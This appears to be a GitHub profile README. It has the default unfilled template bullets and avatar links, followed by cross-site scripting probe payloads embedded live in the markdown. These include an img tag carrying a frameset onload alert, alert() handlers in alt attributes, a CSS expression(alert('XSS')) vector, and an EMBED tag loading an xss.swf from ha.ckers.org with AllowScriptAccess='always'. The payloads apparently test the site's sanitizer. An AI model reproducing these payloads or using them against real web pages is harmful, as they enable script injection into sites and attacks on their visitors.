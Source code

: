 - 👋 Hi, I’m @falx00h
- 👀 I’m interested in ...
- 🌱 I’m currently learning ...
- 💞️ I’m looking to collaborate on ...
- 📫 How to reach me ...

![text](https://avatars.githubusercontent.com/u/92805783?s=40&v=4)
![
<img src="https://avatars.githubusercontent.com/u/92805783?&s=40&v=" alt="!@#$%¨&*()_+=-{}[]?/:;>.<,\|´`^~"/>
<img src="#<frameset onload=alert(123)>&{document.vulnerable=true;};" alt="onload!#$%&()*~+-_.,:;?@[/|\]^`=alert(1)"/>

<img src="<~/XSS/*-*/STYLE=xss:e/**/xpression(alert('XSS'))>">
<;EMBED SRC=";http://ha.ckers.org/xss.swf"; AllowScriptAccess=";always";>;<;/EMBED>;
<!--[if gte IE 4]-->

](()

